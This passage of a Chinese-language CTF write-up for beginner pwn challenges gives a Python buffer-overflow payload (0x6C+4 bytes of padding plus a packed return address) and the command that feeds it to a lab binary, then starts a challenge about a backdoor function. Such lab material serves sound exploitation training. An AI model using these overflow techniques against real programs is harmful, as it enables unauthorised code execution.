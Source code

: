 那就直接溢出



程序代码payload：

```python
payload = b'a' * (0x6C + 0x04) + p32(0x080485E6)
print(payload)
```



登上去，直接运行程序



```
./pwnme aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xe6\x85\x04\x08
```



![image-20241031131600953](../_media/image-20241031131600953.png)



## 36. pwn36

存在后门函数，如何利用？



养成好习惯，check一下：

![image-20241031143247623](../_media/image-20241031143247623.png)
